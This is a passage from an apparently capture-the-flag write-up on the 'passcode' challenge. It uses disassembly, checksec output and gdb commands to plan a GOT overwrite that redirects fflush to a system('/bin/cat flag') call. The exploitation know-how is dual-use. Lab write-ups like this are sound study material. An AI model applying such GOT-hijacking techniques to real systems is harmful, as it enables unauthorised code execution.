 ```UPX...? sounds like a delivery service :)```
    ...
    ...
    0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
    0x080485cc <+104>:   jne    0x80485f1 <login+141>
    0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
    0x080485d5 <+113>:   jne    0x80485f1 <login+141>
    0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
    0x080485de <+122>:   call   0x8048450 <puts@plt>
    0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
    0x080485ea <+134>:   call   0x8048460 <system@plt>
    ```
    * The passcode1 variable starts from ```ebp-0x10```
      * The offset = 0x70 - 0x10 = 0x60 = 96 < 100
      * We can modify the value of 4 bytes which is enough for address value in 32-bit architecture
    * The passcode2 variable starts from ```ebp-0xc```
      * The offset = 0x70 - 0xc = 100
      * This is out of bound and we cannot change the value of passcode2
* Since we cannot change the passcode2, it's unlikely to avoid segmentation fault during the second scanf in login function
* The vulnerability in ```scanf("%d", passcode1)``` can lead to arbitrary write to any address
* We should think of controlling the control flow to jump to the ```system("/bin/cat flag");``` before executing ```scanf("%d", passcode2);```
* [GOT & PLT](https://www.youtube.com/watch?v=kUk5pw4w0h4)
  * checksec
    ```sh
    passcode@pwnable:~$ checksec passcode
    [*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    ```
    * Since it's Partial RELRO, GOT hijacking is possible
  * The only two functions between the first scanf and second scanf is fflush and printf
  * Here we choose to overwrite the GOT of fflush to 0x080485e3 which is the address for system. We didn't choose 0x80485ea since the previous instruction might be necessary for system function
  * Useful command in gdb to get information of got and plt
    * ```x/10i &'fflush@plt'```
      ```assembly
      0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
      0x8048436 <fflush@plt+6>:    push   0x8
      0x804843b <fflush@plt+11>:   jmp    0x8048410
      0x8048440 <__stack_chk_fail@plt>:    jmp    DWORD PTR ds:0x804a008
      ...
      ``` 
      * list 10 instructions strart from fflush's plt
      * PLT address is 0x8048430
      * GOT address is 0x804a004
    * ```x/10i &'fflush@got.plt'```
      ```assembly
      0x804a004 <fflush@got.plt>:  test   BYTE PTR ss:[eax+ecx*1],al
      0x804a008 <__stack_chk_fail@got.plt>:        inc    esi
      0x804a009 <__stack_chk_fail@got.plt+1>:      test   BYTE PTR [eax+ecx*1],al
      ...
      ...
      ```
      * List 10 instructions start from fflush's got
### Exploit
* The offset from name to passcode1 is 96
* Now we know the value of passcode1 should be the address of fflush's GOT = 0x804a004
* Then the scanf will help us to write our desired value at this address which is 0x80485e3
* Remember the address needs to be little endian
```